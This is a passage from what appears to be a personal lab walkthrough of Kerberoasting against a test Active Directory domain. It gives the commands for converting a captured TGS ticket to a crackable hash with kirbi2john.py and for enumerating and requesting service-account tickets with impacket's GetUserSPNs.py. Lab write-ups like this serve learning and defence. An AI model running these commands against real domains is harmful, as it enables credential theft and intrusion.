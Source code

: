 
<img src="/img/kerberosting/m4.PNG" alt="Getting-gz" width="1000" height="200"> 


## kirbi2john.py
I copied TGS  ticked to my kali machine  and use kirbi2john from john 

Convert the Kirbi to Hash 
```
kirbi2john.py 3-40a50000-admin@ldap\~domainAD.karim.net\~DomainDnsZones.karim.net-KARIM.NET.kirbi
```

<img src="/img/kerberosting/222222.PNG" alt="Getting-gz" width="1000" height="300"> 
 
## GetUserSPNs.py
I used GetUserSPNs from  impacket collection to discover spn from a remote machine 

find user account used as service account
```
python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140 
```

<img src="/img/kerberosting/1.PNG" alt="Getting-gz" width="1000" height="200"> 

```
python3 GetUserSPNs.py karim.net/admin:p@ssw0rd -dc-ip 192.168.128.140 -request     
```
